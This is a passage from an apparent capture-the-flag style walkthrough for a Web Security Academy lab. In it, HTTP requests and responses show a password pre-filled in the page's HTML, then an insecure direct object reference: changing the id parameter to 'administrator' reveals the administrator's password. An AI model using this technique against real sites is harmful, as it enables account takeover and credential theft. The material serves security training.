 \documentclass[11pt,letterpaper]{article}
\newcommand{\code}[1]{\texttt{\detokenize{#1}}}
\begin{document}
\begin{lstlisting}[language=http,caption={Step 2: Observe password disclosure on own account}]
GET /my-account?id=wiener HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=authenticatedSession123

-- Response --
HTTP/1.1 200 OK
Content-Type: text/html

<html>
<body>
    <h1>My Account</h1>
    <p>Your username is: <strong>wiener</strong></p>

    <form method="POST" action="/my-account/change-email">
        <label>Email</label>
        <input name="email" value="wiener@example.com">
        <button>Update email</button>
    </form>

    <form method="POST" action="/my-account/change-password">
        <label>Password</label>
        <!-- VULNERABILITY: Password pre-filled! -->
        <input type="password" name="password" value="peter">
        <button>Update password</button>
    </form>
</body>
</html>
\end{lstlisting}

\begin{tipbox}
Notice the password input has \code{value="peter"} - your actual password is visible in the HTML source! This is vulnerability \#1: Password Disclosure.
\end{tipbox}

\subsection{Step 3: Exploit IDOR to Access Administrator Account}

\begin{lstlisting}[language=http,caption={Step 3: Change id parameter to administrator}]
-- Using Burp Repeater, modify the id parameter --
GET /my-account?id=administrator HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=authenticatedSession123

-- VULNERABLE Response: Administrator's account data! --
HTTP/1.1 200 OK
Content-Type: text/html

<html>
<body>
    <h1>My Account</h1>
    <p>Your username is: <strong>administrator</strong></p>

    <form method="POST" action="/my-account/change-email">
        <label>Email</label>
        <input name="email" value="admin@example.com">
        <button>Update email</button>
    </form>

    <form method="POST" action="/my-account/change-password">
        <label>Password</label>
        <!-- CRITICAL: Administrator's password exposed! -->
        <input type="password" name="password" value="xK7mN9pQrS2t">
        <button>Update password</button>
    </form>
</body>
</html>
\end{lstlisting}
\end{document}
